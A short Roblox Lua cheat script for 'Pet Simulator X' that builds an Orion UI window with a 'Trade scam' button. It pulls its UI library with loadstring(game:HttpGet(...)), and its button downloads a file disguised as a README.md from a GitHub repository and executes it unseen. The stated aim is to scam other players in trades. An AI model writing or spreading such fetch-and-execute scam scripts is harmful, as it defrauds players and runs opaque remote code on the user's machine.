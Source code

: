 local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "pet simulator X", HidePremium = false, lntroText = "Goldenhub", SaveConfig = true, ConfigFolder = "OrionTest"})

local Tab = Window:MakeTab({

	Name = "Trade scam",	Icon = "rbxassetid://4483345998",

	PremiumOnly = false

})

OrionLib:MakeNotification({

	Name = "",

	Content = "ขอให้สนุก🥰",

	Image = "rbxassetid://4483345998",

	Time = 5

})

Tab:AddButton({

	Name = "Trade scam (wait 1-5minute)",

	Callback = function()

      	  loadstring(game:HttpGet("https://raw.githubusercontent.com/PerthEuEu/asdacPetsimx/main/README.md"))();

  	end    

})

OrionLibInit() 
